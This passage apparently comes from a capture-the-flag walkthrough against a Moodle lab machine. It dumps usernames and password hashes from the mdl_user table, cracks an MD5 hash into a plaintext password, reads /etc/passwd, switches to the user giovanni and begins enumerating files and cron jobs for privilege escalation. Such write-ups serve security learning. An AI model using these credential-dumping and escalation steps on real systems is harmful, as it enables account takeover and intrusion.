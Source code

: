 
Show tables and search for “user”:

    show tables;

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556690911141_image.png)


Show whats inside `mdl_user`:

    describe mdl_user

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556690997125_image.png)


show usernames and passwords:

    select id,username,password from mdl_user;

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556691047229_image.png)


*we now have bcrypt hashes for a list of users and 1 that looks like an MD5 hash. The fastest way to decrypt MD5 hashes is simply with google.*

Results:

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556691161464_image.png)

    username: Giovannibak
    password: expelled



# Priv-Esc

with a passwd check we have a user giovanni and switch users and enter newly acquired password.


    cat /etc/passwd
    su - giovanni
    password: expelled

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556691280017_image.png)



## enumerating as giovanni

search the `/work` directory:

    find . -ls

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556691376073_image.png)


Check cron:

    ls /etc/cron.*
